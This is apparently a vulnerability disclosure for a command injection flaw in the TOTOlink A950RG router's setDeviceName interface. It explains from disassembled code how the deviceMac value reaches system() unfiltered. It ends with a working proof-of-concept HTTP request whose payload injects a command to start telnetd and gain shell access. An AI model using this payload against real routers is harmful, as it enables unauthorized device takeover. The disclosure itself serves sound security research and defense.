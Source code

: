 # TARGET
- Device: TOTOlink A950RG Router
- Firmware version : V4.1.2cu.5204_B20210112

# BUG TYPE
Command Execution Vulnerability

# Abstract
The TOTOlink A950RG router contains a command execution vulnerability in the setDeviceName interface of the /lib/cste_modules/global.so library, specifically in the processing of the deviceMac parameter. Due to insufficient input validation and filtering of user-controllable parameters, attackers can inject system commands through specially crafted malicious requests to the deviceMac parameter. By exploiting this vulnerability, unauthorized attackers can execute arbitrary system commands, thereby gaining control over the affected router device.

# Details

![Snipaste_2025-04-08_01-42-56](figures/Snipaste_2025-04-08_01-42-56.png)

The vulnerability exists in the setDeviceName function of the global.so library. Analysis of the disassembled code reveals that the deviceMac parameter is retrieved from user input via the websGetVar function and stored in variable v6. The system then executes the command '/bin/jffs2.sh 1 2> /dev/null'. If the file '/mnt/customDeviceName' does not exist, the code constructs a command string v18 containing the deviceMac value and executes it using the system function to write these values to the '/mnt/customDeviceName' file.

The sprintf() function formats a string into the v18 buffer with the format string "echo '%s,%s' > /mnt/customDeviceName", where the first %s is replaced with the value of v6 (the user-supplied deviceMac parameter). The system() function then executes the command string in v18. If an attacker injects malicious commands into variable v6 (the deviceMac parameter), such as instructions to start the telnet service, these commands will be directly concatenated into the system call and executed.

When the single quote after echo is prematurely closed, the ";" and "&" characters are exposed outside of the single quotes, and they are interpreted by the shell as command separators and background execution symbols respectively. When the router executes system(v18), it not only processes the original device name saving function but also executes the injected malicious commands, potentially activating services that were previously turned off or performing other unauthorized operations.

Due to the lack of sufficient validation and filtering of user input before executing the system command, conditions for command injection attacks are created. Attackers can exploit this command execution vulnerability by sending specially crafted API requests with malicious commands injected into the deviceMac parameter, potentially resulting in complete system compromise.

# POC
Through BurpSuite packet capture tool, we can intercept data packets between the frontend and backend. By analyzing the packet structure, we can construct HTTP request packets containing command injection and send the requests. Through analysis of the returned packets, we can confirm the results of malicious command execution, thereby verifying the existence and exploitation effect of the vulnerability.

```
POST /cgi-bin/cstecgi.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:135.0) Gecko/20100101 Firefox/135.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 96
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/home.asp
Cookie: SESSION_ID=2:1744044653:2

{"topicurl":"setting/setDeviceName",
"deviceMac" : "a',; telnetd &# ",
"deviceName":  "bbb"
}
```

As shown in the results, the command injection was successful, and the target router device supports Telnet service, allowing shell access to the device via Telnet.

![Snipaste_2025-04-08_01-41-42](figures/Snipaste_2025-04-08_01-41-42.png)